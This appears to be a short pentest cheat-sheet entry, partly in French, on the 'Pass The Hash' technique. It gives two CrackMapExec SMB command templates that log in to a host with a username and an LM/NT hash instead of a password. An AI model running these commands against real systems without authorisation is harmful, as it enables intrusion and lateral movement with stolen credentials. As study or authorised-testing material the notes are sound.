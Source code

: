 # Pass The Hash

```
cme smb <IP> -u <USER> -H <LM-HASH>:<NT-HASH>
cme smb <IP> -u <USER> -H <NT-HASH>
```

Les _hashs_ NT (a.k.a NTLM) peuvent être utilisés.
